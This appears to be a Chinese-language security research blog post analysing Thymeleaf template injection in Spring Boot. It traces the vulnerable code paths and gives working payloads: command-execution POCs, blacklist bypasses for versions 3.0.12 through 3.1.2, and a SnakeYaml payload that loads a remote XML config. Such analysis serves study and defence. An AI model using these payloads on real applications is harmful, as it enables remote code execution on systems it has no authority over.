和其他模板注入不太相同，thymeleaf模板注入的漏洞点在模板名可控，插入恶意payload，执行SpEL表达式。

官方文档👉https://www.thymeleaf.org/doc/tutorials/3.1/usingthymeleaf.html

由文档可知，在SpringMVC下，thymeleaf中的表达式最终会被转化为SpEL表达式。

尝试直接执行恶意的SpEL表达式

```html
<p th:text=${#T(java.lang.Runtime).getRuntime().exec("calc")}></p>
```

~~会报错~~

> ~~`org.springframework.expression.spel.SpelEvaluationException: EL1006E: Function 'T' could not be found`~~

还记得SpEL表达式执行的修复中提到使用`SimpleEvaluationContext`来代替`StandardEvaluationContext`吗？前者旨在仅支持 SpEL 语言语法的一个子集。它不包括 Java 类型引用，构造函数和 bean 引用。同样thymeleaf也实现了自己的`EvaluationContext` ———— `ThymeleafEvaluationContext`~~，同样也把这些语法特性阉割了。~~

大乌龙，SpEL表达式中用`#T`来引用类，但`thymeleaf`中直接`T`来引用。

把`#`去掉，低版本可以打通。高版本设置了黑名单，下文介绍绕过。

和其他模板引擎一样，thymeleaf也提供了一些全局上下文变量，用`#`来引用。

> `#ctx`: the context object. An implementation of `org.thymeleaf.context.IContext` or `org.thymeleaf.context.IWebContext` depending on our environment (standalone or web).
>
> `#root`：org.thymeleaf.spring5.expression.SPELContextMapWrapper
>
> `#request` ：(仅在 Web 上下文中)`HttpServletRequest`对象。
>
> `#response` ：(仅在 Web 上下文中)`HttpServletResponse`对象。
>
> `#session` ：(仅在 Web 上下文中)`HttpSession`对象。
>
> `#servletContext` ：(仅在 Web 上下文中)`ServletContext`对象。
>
> 最新版本：
>
> The 'request','session','servletContext' and 'response' expression utility objects are no longer available by default for template expressions and their use is not recommended. In cases where they are really needed, they should be manually added as context variables.
>
> 也就是只能用#ctx和#root了

# Reproduce

```xml
<parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.0.0.RELEASE</version>
</parent>

<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
</dependency>

<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-thymeleaf</artifactId>
</dependency>
```

> `SpringBoot`2.0.0.RELEASE => `thymeleaf-spring5` 3.0.9
>
> `SpringBoot`2.2.0.RELEASE => `thymeleaf-spring5` 3.0.11

```java
@GetMapping("/index")
public String test(@RequestParam String lang){
    return "home/"+lang+"/index";
}
```

POC：

```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__::.x
```

漏洞点在`org.thymeleaf.spring5.view.ThymeleafView#renderFragment`

`renderFragment`用于解析片段

当`viewTemplateName`含有`::`，`viewTemplateName`会被拼接上`~{}`作为片段表达式

> 片段表达式为Thymeleaf 3.x新增的内容
>
> 分段片段表达式是⼀种表示标记⽚段并将其移动到模板周围的简单⽅法。
>
> 正是由于这些表达式，⽚段可以被复制，或者作为参数传递给其他模板等等
>
> 在一个文件中定义的fragment（`banner.html`）
>
> ```html
> <div th:fragment="test">Hello</div>
> ```
>
> 可以在其他文件中引用
>
> ```html
> <div th:insert="~{banner::test}">
> </div>
> ```



进到`StandardExpressionPreprocessor#preprocess`

正则提取`__(.*?)__`，即提取`__xx__`中间的`xx`内容，封装成一个`expression`并执行`execute`方法，执行了SpEL表达式



此外，下面这种情况也能触发漏洞

```java
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    //returns void, so view name is taken from URI
}
```

之前提到`DispatcherServlet#doDispatch`会尝试获取`ModelAndView`，视图名就是由`Controller`的返回值得到的，但这里返回为空，造成`DispatcherServlet`获取到的`ModelAndView`也为空

`applyDefaultViewName`会尝试将路径名作为视图名

```java
private void applyDefaultViewName(HttpServletRequest request, @Nullable ModelAndView mv) throws Exception {
    if (mv != null && !mv.hasView()) {
        String defaultViewName = getDefaultViewName(request);
        if (defaultViewName != null) {
            mv.setViewName(defaultViewName);
        }
    }
}

public String getViewName(HttpServletRequest request) {
    String lookupPath = this.urlPathHelper.getLookupPathForRequest(request);
    return (this.prefix + transformPath(lookupPath) + this.suffix);
}

protected String transformPath(String lookupPath) {
    String path = lookupPath;
    if (this.stripLeadingSlash && path.startsWith(SLASH)) {
        path = path.substring(1);
    }
    if (this.stripTrailingSlash && path.endsWith(SLASH)) {
        path = path.substring(0, path.length() - 1);
    }
    if (this.stripExtension) {
        path = StringUtils.stripFilenameExtension(path);
    }
    if (!SLASH.equals(this.separator)) {
        path = StringUtils.replace(path, SLASH, this.separator);
    }
    return path;
}
```

`transformPath`会把请求路径进行如下处理

* 去除开头结尾的SLASH `/` 
* 去除文件扩展名（即去除最后的`.`及后面的内容）

POC：

```java
doc/__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream()).next()}__::a.b
```

`transformPath`会去掉文件扩展名，因此POC以`a.b`结尾



# ByPass

在`3.0.12`版本，`thymeleaf`增加了一个工具类`SpringStandardExpressionUtils`

`containsSpELInstantiationOrStatic`顾名思义，对实例化和静态方法的调用作了检测

限制了如下：

* 不能有`new`关键字
* `(`左边的字符不能是`T`

可以用空白符绕过：

```java
__${T (java.lang.Runtime).getRuntime().exec("calc")}__::.x
```

此外还有另外一个函数的限制，请求路径不能和返回的视图名一样

```java
// A check must be made that the template name is not included in the URL, so that we make sure
// no code to be executed comes from direct user input.
SpringRequestUtils.checkViewNameNotInRequest(viewTemplateName, request);
```

像下面这种路由就受到了限制

```java
@GetMapping("/home/{page}")
public String getHome(@PathVariable String page) {
    return "home/" + page;
}
```



这里是通过`request.getRequestURI()`获取路径的

两种绕过方式：

* 双写斜杠
  * `home//__%24%7BT%20(java.lang.Runtime).getRuntime().exec(%22calc%22)%7D__%3A%3A.x`
* `;`传递矩阵参数
  * `home;/__%24%7BT%20(java.lang.Runtime).getRuntime().exec(%22calc%22)%7D__%3A%3A.x`

高版本的修复





会往`(`左边一直找`T`

# Sandbox Escape

上文无关，这才更像平时接触到的SSTI，通过控制模板本身的内容来造成RCE

最早的版本没有黑名单限制，直接打

```java
<p th:text=${T(java.lang.Runtime).getRuntime().exec("calc")}></p>
```

高版本中设置了黑名单，上面的payload会报错

`Access is forbidden for type 'java.lang.Runtime' in Thymeleaf expressions. Blacklisted classes are:...`

下面以3.1.1.RELEASE为例，更低的版本黑名单措施会更少。

```xml
<parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>2.7.17</version>
</parent>

<properties>
    <maven.compiler.source>8</maven.compiler.source>
    <maven.compiler.target>8</maven.compiler.target>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
	<thymeleaf.version>3.1.1.RELEASE</thymeleaf.version>
</properties>

<dependencies>
    <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-web</artifactId>
    </dependency>

    <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-thymeleaf</artifactId>
        <version>3.1.1</version>
    </dependency>
</dependencies>
```

## 3.1.1 spring框架反射工具类绕过

该版本的黑名单包括两层：

* 类型引用的黑名单
* 成员调用的黑名单

下面是类型引用的限制

`ThymeleafEvaluationContext$ThymeleafEvaluationContextACLTypeLocator#findType`=>`ExpressionUtils#isTypeAllowed`



首先判断包名是否被禁用，没被禁用直接通过

若包名被禁了，再判断该类是否在白名单内



`isPackageBlockedForTypeReference`



看得出来这里禁用的包名只可能以`c`、`n`、`j`、`o`开头

`isPackageBlockedForAllPurposes`



看得出来这里禁用的包名只可能以`c`、`j`、`o`、`s`开头

`com.sun`和`java`下的类都被禁了。（扣掉`java.time`）





下面是成员调用的限制



对象和类分别判断：

* 对象可以调用`getClass`和`toString`
* 若类在黑名单中只能调用静态方法`getName`

显然若调用的是静态方法，若类在黑名单内且调用的不是`getName`，就会走到`isMemberAllowedForInstanceOfType`进行判断


之前在讲enjoy模板的时候也碰到了黑名单的绕过，那时候通过spring框架自带的工具类来调用清空黑名单的方法，通过反射来绕过黑名单对类名和方法名的检测。

这里也可以利用这些工具类来调用恶意方法。

之前的enjoy模板明确禁用了方法名`forName`，通过`URLClassLoader.getSystemClassLoader()`拿到`ClassLoader`，再`loadClass`来获取`Class`对象。这里可以用`ClassUtils#forName`

> - `org.springframework.util.ClassUtils#forName` 获取任意 class 对象
> - `org.springframework.util.ReflectionUtils#findMethod` 获取任意 Method 对象
> - `org.springframework.util.ReflectionUtils#invokeMethod` 调用任意 Method 对象

另外Thymeleaf中可以使用`th:with`进行指定局部变量

```html
<tr th:with="getRuntimeMethod=${T(org.springframework.util.ReflectionUtils).findMethod(T(org.springframework.util.ClassUtils).forName('java.lang.Runtime',T(org.springframework.util.ClassUtils).getDefaultClassLoader()), 'getRuntime')}">
<a th:with="runtimeObj=${T(org.springframework.util.ReflectionUtils).invokeMethod(getRuntimeMethod, null)}">
<a th:with="exeMethod=${T(org.springframework.util.ReflectionUtils).findMethod(T(org.springframework.util.ClassUtils).forName('java.lang.Runtime',T(org.springframework.util.ClassUtils).getDefaultClassLoader()), 'exec', ''.getClass())}">
<a th:with="param2=${T(org.springframework.util.ReflectionUtils).invokeMethod(exeMethod, runtimeObj, 'calc' )}"
   th:href="${param2}"></a>
</a>
</a>
</tr>
```

## 3.1.2 应用上下文调用IOC方法

3.1.2.RELEASE（目前最新）在黑名单中新增了更多了`org.springframework`下的包



其中就包括`org.springframework.util`

wh1t3Pig师傅找到了一些其他public方法可利用的类

见👉https://blog.0kami.cn/blog/2024/thymeleaf%20ssti%203.1.2%20%E9%BB%91%E5%90%8D%E5%8D%95%E7%BB%95%E8%BF%87

```java
ch.qos.logback.core.util.Loader#loadClass
org.apache.el.util.ReflectionUtil#forName

ch.qos.logback.core.util.OptionHelper#instantiateByClassNameAndParameter

org.apache.el.util.ReflectionUtil#getMethod
org.apache.catalina.util.Introspection#getDeclaredMethods
org.apache.el.util.ReflectionUtil#toTypeArray

org.apache.tomcat.util.IntrospectionUtils#callMethod1
org.apache.tomcat.util.IntrospectionUtils#callMethodN
```

靠这些默认的依赖暂时没找到可以利用的。。。

此外对于成员调用又多了如下限制：





不能是这些类或者其子类，注意到有一个`RequestContext`类

之前说到`org.springframework.web.servlet.support.RequestContext`可以用来获取`WebApplicationContext`即Web应用上下文

`org.thymeleaf.spring5.view.ThymeleafView#render => renderFragment`



`addRequestContextAsVariable`把`requestContext`注册到了Model里，也就是模板里能直接用。

> [[${springMacroRequestContext.webApplicationContext}]]
>
> [[${springRequestContext.webApplicationContext}]]



> `[[]]`是thymeleaf的行内表达式语法
>
> `[[]]`会对html进行转义、`[()]`不会
>
> 若有些WAF过滤了尖括号，可以使用`[[]]`

我们知道Spring的IOC机制底层是反射+工厂模式，因此获取到应用上下文（WebApplicationContext）后，就相当于控制了整个IOC容器。

`AnnotationConfigServletWebServerApplicationContext`这个应用上下文对象有两个有意思的属性（实际上模板解析时会转换为getter的调用，如`getBeanFactory`）

* `beanFactory`（`DefaultListableBeanFactory`）
* `classLoader`

`DefaultListableBeanFactory`其父类`AbstractAutowireCapableBeanFactory`有个`createBean`方法



拿到`ClassLoader`就可以加载任意类了，配合`beanFactory`来创建类示例，就能调用恶意方法了。

但是由于黑名单仍然限制调用调用方法的目标对象，因此还是不能用`Runtime`之类的`java`包下的类

`SpringBoot`自带了`snakeYaml`，应该是用来解析`application.yaml`这个格式的配置文件的。

### SnakeYaml

打snakeYaml初始化`ClassPathXmlApplicationContext`，远程加载配置，造成SpEl执行

> [[${springRequestContext.webApplicationContext.beanFactory.createBean(springRequestContext.webApplicationContext.classLoader.loadClass("org.yaml.snakeyaml.Yaml")).load('!!org.springframework.context.support.ClassPathXmlApplicationContext ["http://127.0.0.1:8099/poc.xml"]')}]]

### SpEl

禁了`javax`包，不能用`javax.script.ScriptEngineManager`去执行js表达式了。

但是Spring有自己的表达式语言呀！`org.springframework.expression.spel.standard.SpelExpressionParser`

> [[${springRequestContext.webApplicationContext.beanFactory.createBean(springRequestContext.webApplicationContext.classLoader.loadClass("org.springframework.expression.spel.standard.SpelExpressionParser")).parseExpression('T(java.lang.Runtime).getRuntime().exec("calc")').getValue()}]]

注意上面的`BLOCKED_TYPE_REFERENCE_PACKAGE_NAME_PREFIXES`黑名单里虽然有`org.springframework.expression.`，但这个黑名单只是限制了`T`去引用这个包下的类，而在成员访问的黑名单中并没有对`expression`的限制。

### jacksonObjectMapper

网上看到之前UIUCTF一道Pebble SSTI的文章，👉https://blog.arkark.dev/2022/08/01/uiuctf

里面用到了Spring的IOC容器内置Bean来加载和实例化类

`com.fasterxml.jackson.databind.ObjectMapper`

